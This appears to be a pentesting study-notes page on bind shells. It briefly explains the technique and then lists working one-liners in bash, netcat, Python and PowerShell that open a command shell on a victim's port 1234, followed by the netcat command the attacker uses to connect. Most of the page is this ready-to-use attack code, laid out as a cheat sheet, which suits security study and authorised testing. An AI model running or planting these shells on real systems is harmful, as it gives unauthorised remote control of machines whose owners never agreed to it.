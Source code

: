 ```yaml
---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
```


# Bind shells

In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

**First step** in this attack is initiating the listening connection on port '1234' on the remote host (the victim's), with IP '0.0.0.0' so that we can connect to it from anywhere.


## Bind shell connections

### bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### netcat

```shell-session
nc -lvp 1234 -e /bin/bash
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```shell-session
 nc 10.10.10.1 1234
 # 10.10.10.1 would be the victim's machine
 # 1234 would be the listening port on victim's machine
 ```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.



## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)) |
